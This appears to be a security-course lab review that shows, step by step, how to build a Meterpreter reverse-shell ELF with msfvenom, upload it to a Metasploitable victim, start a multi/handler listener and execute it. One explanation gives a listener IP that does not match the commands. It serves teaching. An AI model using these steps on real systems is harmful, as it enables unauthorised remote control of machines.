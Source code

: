 ## Review Creating Malicious Binaries

When creating malicious binaries for any platform, you will need to follow the four basic steps: 

- Create the Executable
- Upload the Payload
- Start a Listener
- Execute the Payload 



**Creating the Executable**

Launch a Terminal in your Kali instance, and run: `msfvenom --arch x86 --platform linux --payload linux/x86/meterpreter/reverse_tcp LHOST=198.51.100.50 LPORT=4444 --format elf -o /tmp/shell.elf`.
Take a closer look at each of the flags: 
- The `--arch` flag tells `msfvenom` to create an executable that will run on x86 architecture. This is the most common CPU architecture in use, and can be found on both Linux and Windows machine.  
- The `--platform` flag specifies the target operating system—Linux, Windows, etc.
- The `--payload` flag lets you specify exactly how you want your victim to connect back to you. For example, you can open a raw TCP connection, or a full Meterpreter session. Meterpreter is the most common choice of payload.
- The `LHOST` and `LPORT` options specify your IP address, and the port on which you'll be listening for connections.

- The file `shell.elf` contains a program that will open a Meterpreter connection to your computer's port `4444`.

Remember, this is to exploit a Linux host, not a Windows host. If you wanted to exploit a Windows host you would need to select a different architecture, platform, and payload. 

**Uploading the Payload**

There are several ways to do this, but for this activity you were asked to use `scp`.

`scp /tmp/shell.elf msfadmin@192.168.11.8:/tmp`

**Starting a Listener**

- Remember that, when you run the payload, it will attempt to connect to your machine's port `4444`. Use the snippet below to start a listener:
    
  ```bash
  msf > use multi/handler
  msf > exploit(multi/handler) > set LPORT 4444
  msf > exploit(multi/handler) > set LHOST 198.51.100.50
  msf > set payload linux/x86/meterpreter/reverse_tcp
  msf > exploit(multi/handler) > run -j
  ```

Take a closer look at each of the flags:
    
- `use multi/handler` selects the module to use.     
- `set LPORT 4444` instructs Metasploit to listen on port 4444. 
- `set LHOST 198.51.100.50` instructs Metasploit to listen on the interface with ip address `192.168.1.10`. 
- `set payload linux/x86/meterpreter/reverse_tcp` instructs the `multi/handler` exploit to use the Linux `reverse_tcp` payload. 
- `run -j` runs the listener in the background, so you can use the command line while you wait for a connection. 



**Executing the Payload**

Run these on the victim machine through an SSH connection:


Move into the directory where `shell.elf` lives:
- Type: `msfadmin@metasploitable:~$ cd /tmp`
  
Make `shell.elf` executable:
- Type: `msfadmin@metasploitable:~$ chmod +x shell.elf`
  
Run `shell.elf` to open a Meterpreter connection to the attacking machine:
- Type: `msfadmin@metasploitable:~$ ./shell.elf`

